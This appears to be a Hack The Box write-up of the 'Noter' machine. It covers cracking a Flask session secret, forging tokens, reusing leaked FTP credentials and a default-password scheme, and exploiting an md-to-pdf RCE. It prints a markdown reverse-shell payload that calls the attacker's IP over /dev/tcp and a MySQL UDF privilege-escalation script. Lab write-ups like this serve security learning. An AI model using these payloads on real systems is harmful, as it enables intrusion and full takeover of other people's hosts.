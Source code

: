 
<p align="center">

## Noter Machine

<img  width=300 src="./img/box.png" allign="center" alt="Logo">



### Machine Stats :

<img width=400 src="./img/stats.png">

</p>

#### Walkthrough :

I started as always by scanning the machine ports :

<img src="./img/0.png">

* SSH on port 22.

* FTP on 21.

* A webserver on port 5000.


I tried anonymous login on ftp but that didn't work. So i decided to look at the web server on port 5000. It was a flask web app that provides users with a database to store and manage notes.

<img src="./img/2.png">

Trying common logins and passwords (admin:admin, *:*, root:root ...) or trigering an SQL error wasn't fruitful.
So i decided to register a user Tom to be able to further explore the app.

<img src="./img/3.png">


While inspecting the intercepted requests on burp, i found out that a session token (looks like JWT) is used.
I decoded it with jwt.io which revealed an awkward payload and an interesting header.

<img src="./img/4.png">

It wasn't actually a typical jwt which often looked more like this (with a valid signature):

<img src="./img/5.png">

I figured out that it was a flask token thanks to Carlos Polop's HackTricks (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask/).
Using flask_unsign with a rockyou.txt as a wordlist was good enough to reveal the secret.


<img src="./img/6.png">

I'm now able to craft my own tokens using the same tool to bruteforce usernames.
All i needed was a bash script and a good wordlist to generate my tokens:

<img src="./img/7.png">

I used ffuf using my generated tokens as a session value and there was 2 200 HTTP responses (A wrong token redirects to /login).

<img src="./img/8.png">

A username "user" which was useless and another one named "blue" which actually had some stored notes.

One note written by ftp_admin exposed the ftp username and password of blue.

<img src="./img/9.png">

I used these creds to access ftp on port 21. It had an empty directory and a pdf file which exposed the comapany's password policy.
Reading only the title, i thought i only had some additional specifications making password guessing easier, but it actually specified the way default passwords are generated.

<img src="./img/11.png">

I tried to ftp using user:user@Noter! but it failed it made me think that it was just an account created by another HTB player.(i was so desperate that i tried root:root@Noter! too)
But there was a potential username which i didn't used yet, so i decided to give it a shot.
ftp_admin:ftp_admin@Noter! was the one.

<img src="./img/12.png">

i downloaded and decompressed the zip files and now i finally have the app's source code xD.

<img src="./img/13.png">

the app.py file had the database credentials

<img src="./img/14.png">

Through the templates folder, i discovered hidden paths import_note and export_note which looked promising with the "Export directly from cloud" feature.


<img src="./img/15.png">

It's backend code was in md_to_pdf.js. And Google proved again that it's my best friend, revealing an RCE vulnerability:

<img src="./img/16.png">

The only proof of concept i found was a local one :

<img src="./img/17.png">

But in my case i hosted a markdown file (.md) with a reverse shell payload:

``` ---js\n((require("child_process")).execSync("bash -i >& /dev/tcp/10.10.14.43/4444 0>&1"))\n--- ```

I prepared my listener and requested my malicious md file (http://10.10.14.43:80/a.md) from th vulnerable server to trigger the rce but it didn't work, i didn't catch a shell. 

<img src="./img/18.png">

I had this problem before and i thought i had a trick to fix it which was wrapping the revshell in bash -c ''.
It was better but i still didn't get an interactive shell.

<img src="./img/19.png">

Looking again at the public proof of concept i had an idea of seperating the shell and the rce payload.
And successfully got a shell.

<img src="./img/20.png">

Running linpeas revealed an open mysql port and i already have the root creds.
After some searching i found this Privilege Escalation with MySQL User Defined Functions:

<img src="./img/22.png">

I downloaded the library compiled it and made a text file containing the payload to copy the root flag to /tmp and make it readable.

``` 
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /root/root.txt /tmp; chown svc svc /tmp/root.txt;');
 ```

And now i have the root flag.

<img src="./img/23.png">


Made by Fckroun with <3